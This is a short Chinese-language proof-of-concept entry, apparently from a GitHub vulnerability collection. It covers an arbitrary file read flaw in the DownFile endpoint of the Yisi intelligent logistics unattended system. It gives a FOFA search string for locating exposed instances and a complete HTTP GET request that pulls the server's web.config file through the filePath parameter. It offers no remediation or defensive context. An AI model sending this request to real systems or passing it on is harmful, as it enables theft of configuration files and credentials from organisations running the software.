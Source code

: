 # 易思智能物流无人值守系统DownFile任意文件读取漏洞

易思智能物流无人值守系统DownFile任意文件读取漏洞

## fofa

```javascript
body="/api/SingleLogin"
```

## poc

```javascript
GET /PublicInfoManage/Upload/DownFile?filePath=web.config HTTP/1.0
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```

![image-20241106172615405](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061726493.png)